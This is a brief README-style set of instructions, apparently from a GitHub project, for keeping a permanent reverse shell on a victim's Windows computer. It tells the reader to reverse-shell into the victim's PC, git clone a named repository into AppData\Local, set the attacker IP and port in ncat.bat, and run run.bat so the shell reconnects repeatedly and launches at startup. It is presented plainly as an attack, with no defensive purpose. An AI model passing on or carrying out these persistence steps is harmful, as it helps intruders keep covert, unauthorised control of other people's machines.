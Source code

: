 Once you reverse shell into victims computer, CD into the appdatta, local file and do git clone The link to this gitfile and run Run.bat

you may need to change the Ip and port in (ncat.bat)

what this does is creates an easy reverse shell that is always requesting a connection and is also enabled on startup 


steps:
open powershell
Reverse Shell into victims PC
CD into AppData
CD into local 
type in git clone https://github.com/1DollarCoin/yess.git
CD into yess
type start run.bat
and you should now have a permanent reverse shell
